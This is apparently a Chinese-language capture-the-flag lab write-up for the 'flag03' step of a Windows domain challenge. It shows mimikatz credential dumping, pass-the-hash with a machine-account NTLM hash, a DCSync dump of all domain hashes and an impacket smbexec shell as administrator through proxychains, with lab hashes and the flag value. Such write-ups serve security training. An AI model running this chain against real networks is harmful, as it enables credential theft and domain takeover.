 ## flag03
上传猕猴桃

> RDP 里面可以直接粘贴复制本机文件和内容
>

我直接上传到桌面`C:\Users\Aldrich\Desktop`

获取一些信息

```python
logonpasswords
shell net user /domain
```

就是发现`<font style="color:rgb(82, 95, 127);">win2016$</font>`<font style="color:rgb(82, 95, 127);">在域管组里面</font>

找到对应的 HASH 值

_这里图片没截图好，抱歉_

```python
shell C:\\Users\\Aldrich\\Desktop\\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:WIN2016$ /domain:xiaorang.lab /ntlm:e2b1058677aab11c6b7359eb7d8d4d77" "exit"
```

获得对应 hash 值

```python
shell C:\\Users\\Aldrich\\Desktop\\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754293502665-c25a9097-22d7-4399-bf10-9a84580c55cf.png)

最后使用**<font style="color:rgb(31, 35, 40);">Pass-the-Hash</font>**

```python
┌──(root㉿kali)-[/mnt/…/shared/impacket-0.12.0/impacket-0.12.0/examples]
└─# proxychains python3 smbexec.py -hashes :2c9d81bdcf3ec8b1def10328a7cc2f08 administrator@172.22.8.15

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[proxychains] Strict chain  ...  43.134.9.57:1088  ...  172.22.8.15:445  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>type C:\Users\Administrator\flag\flag03.txt
 _________               __    _                  _    
|  _   _  |             [  |  (_)                / |_  
|_/ | | \_|.--.   .---.  | |  __  .---.  _ .--. `| |-' 
    | |   ( (`\] / /'`\] | | [  |/ /__\\[ `.-. | | |   
   _| |_   `'.'. | \__.  | |  | || \__., | | | | | |,  
  |_____| [\__) )'.___.'[___][___]'.__.'[___||__]\__/  


Congratulations! ! !

flag03: flag{47227631-3839-45c1-ae12-8fe7a6d876f6}

```
